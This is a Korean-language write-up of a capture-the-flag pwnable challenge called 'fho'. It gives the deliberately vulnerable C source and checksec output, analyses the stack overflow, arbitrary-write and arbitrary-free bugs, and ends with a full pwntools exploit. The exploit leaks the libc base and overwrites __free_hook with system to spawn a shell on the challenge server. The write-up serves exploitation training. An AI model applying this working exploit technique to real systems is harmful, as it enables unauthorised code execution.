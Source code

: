 ```c
// Name: fho.c
// Compile: gcc -o fho fho.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

```bash
$ checksec ./fho
[*] './fho'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 분석

## 보호 기법

NX, PIE, stack canary가 적용되어 있으며, full RELRO가 적용되어 있다.

## 코드 분석

* `fho.c:16-19` : `buf`의 크기는 `0x30`바이트 뿐이나, 최대 `0x100`바이트의 데이터를 읽고 있으므로 큰 스택 오버플로우가 발생한다.
* `fho.c:21-27` : 임의의 주소에 원하는 64비트 값을 덮어쓸 수 있다.
* `fho.c:29-32` : 원하는 주소를 free할 수 있다.

# 공격

`__free_hook`, `system` 함수, `"/bin/sh"` 문자열 등이 libc에 정의되어 있으므로, 주어진 libc 파일로부터 이들의 offset을 얻을 수 있다.

그러나, 이 offset을 이용해 실제 메모리 상에서의 주소를 알아내기 위해서는 libc 파일의 베이스를 알아내야 한다. 이때, `main` 함수는 `__libc_start_main` 함수가 호출하므로 `main` 함수의 SFP의 값을 읽으면 libc 파일의 베이스를 알아낼 수 있을 가능성이 높다.

```bash
$ gdb ./fho
pwndbg> b *main
Breakpoint 1 at 0x8ba
pwndbg> r
Starting program: /root/fho
...
────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0   0x5555554008ba main
   f 1   0x7ffff7a03c87 __libc_start_main+231
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

gdb를 통해 알아낸 `main` 함수의 반환 주소는 `__libc_start_main+231`이므로 `main` 함수의 SFP에는 `__libc_start_main+231`이 저장되어 있을 것이다.<br/>
※ 단, 로컬 환경이 ubuntu18.04가 아니라면 backtrace의 결과가 위와 다를 수 있으므로 문제에서 주어진 Dockerfile을 이용해 ubuntu18.04 환경에서 분석하는 것을 권장한다.

이를 활용하여 다음과 같은 익스플로잇 코드를 구성하자.

```python
# Name: fho.py

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 8204

# conn = process('./fho') # local
conn = remote(HOST, PORT)

e = ELF('./fho')
libc = ELF('./libc-2.27.so')

# leak libc base
buf = b'A' * 0x48
conn.sendafter(b'Buf: ', buf)
conn.recvuntil(buf)
libc_start_main_231 = u64(conn.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_231 - libc.sym['__libc_start_main'] - 231
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# overwrite `__free_hook` with `system`
conn.recvuntil(b'To write: ')
conn.sendline(str(free_hook).encode())
conn.recvuntil(b'With: ')
conn.sendline(str(system).encode())

# exploit
conn.recvuntil(b'To free: ')
conn.sendline(str(binsh).encode())

conn.interactive()
```